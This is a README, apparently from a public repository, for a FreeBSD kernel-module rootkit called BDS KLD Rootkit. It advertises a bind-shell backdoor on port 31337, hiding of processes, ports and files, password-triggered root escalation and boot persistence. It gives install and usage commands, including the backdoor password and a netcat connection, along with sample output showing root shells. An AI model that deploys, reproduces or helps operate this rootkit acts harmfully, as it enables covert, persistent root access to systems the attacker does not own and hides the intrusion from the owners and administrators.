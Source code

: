 <h2>BDS KLD ROOTKIT</h2>
<p>
Freebsd KLD Rootkit for FreeBSD 13. Hide files, hide process, hide port, bind shell backdoor
<br>
Developed by : Antonius
<br>
Website : www.bluedragonsec.com
<br>
Github : https://github.com/bluedragonsecurity
</p>

<p>
<h3>Features</h3>
<ul>
  <li>Bind shell on port 31337</li>
  <li>Bind shell process hiding</li>
  <li>Hide file with prefix bds</li>
  <li>Hide bind shell port</li>
  <li>Privilege escalation with password</li>
</ul>
</p>

<p>
<h3>Installation</h3>
<br>
You need root privilege, make and gcc to install this rootkit. To install just type :
<pre>
./install.sh
</pre>
</p>

<h3>Using the Rootkit</h3>
<p>
<b>Privilege Escalation</b>
<br>
  Once the rootkit installed on the system, in case you lost root privilege, you can regain root privilege by typing :
  <pre>
  /sbin/bds_shell bluedragonsec
  </pre>
Typing above command will make you regain root privilege : 
<br>
<pre>
robotsoft@robotsoft ~> id
uid=1002(robotsoft) gid=1002(robotsoft) groups=1002(robotsoft),0(wheel),5(operator)
robotsoft@robotsoft ~> /sbin/bds_shell bluedragonsec
root@robotsoft:~ # id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
root@robotsoft:~ # 
</pre>
</p>

<p>
<b>Connecting to Bind Shell Backdoor</b>
<br>  
Connecting to bind shell on a freebsd server which you have installed this rootkit can be accomplished simply by using netcat :
<pre>
nc (server ip) 31337
</pre>
For example, freebsd server with rootkit installed is at 192.168.0.141 : 
<pre>
root@robotsoft ~# nc 192.168.0.141 31337
FreeBSD robotsoft 13.2-STABLE FreeBSD 13.2-STABLE GENERIC amd64
sh: turning off NDELAY mode
id
uid=0(root) gid=0(wheel) groups=0(wheel)
pwd
/
</pre>
</p>

<p>
<b>Hiding Files and Directories
</b>
<br>
  To hide file and directory just give prefix bds to file name and directory name
</p>

<p>
<b>Process Hiding</b>
This rootkit hides bind shell process from ps.
</p>

<p>
<b>Port Hiding</b>
<br>
This rootkit hides bind shell port from netstat.
</p>

<p>
<b>Persistence</b>
<br>
The rootkit is activated every time the system starts up. After the reboot, wait for 1 minute, the rootkit will be loaded into kernel.
</p>
